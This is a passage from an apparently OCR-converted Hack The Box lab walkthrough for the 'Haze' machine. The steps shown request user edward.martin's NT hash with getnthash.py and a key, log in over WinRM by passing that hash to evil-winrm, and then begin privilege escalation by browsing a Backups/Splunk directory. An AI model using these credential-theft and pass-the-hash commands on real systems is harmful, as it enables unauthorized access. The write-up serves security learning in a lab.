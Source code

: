 **23.** INFO: Request NTHash. [**Take -key** from STEP 21]{.mark}

**RUN:** **python getnthash.py -key
3711d3aaee32265a0dbd3863d4db379205b7ea2b9aa02e800e6430f5ff2e95a6
haze.htb/edward.martin**

![](images/media/image40.png){width="5.426539807524059in"
height="0.8166732283464567in"}

**24.** INFO: Connect through POWERSHELL. [**Take the NTHash** from STEP
23]{.mark}

**RUN in Kali VM:** **evil-winrm -i 10.10.11.61 -u edward.martin -H
09e0b3eeb2e7a6b0d419e9ff8f4d91af**

![](images/media/image41.png){width="6.288888888888889in"
height="1.5263888888888888in"}

**///\-\--PRIVILEGE
ESCALATION\-\--////////////////////////////////////////////////////////////////**

**25.** INFO: There is a BACKUP DIRECTORY in ROOT DIRECTORY, which
couldn't be accessed before!

**RUN in loggedin with POWERSHELL:** **cd C:/Backups**

**RUN in loggedin with POWERSHELL:** **dir**

**RUN in loggedin with POWERSHELL:** **cd Splunk**

**RUN in loggedin with POWERSHELL:** **dir**
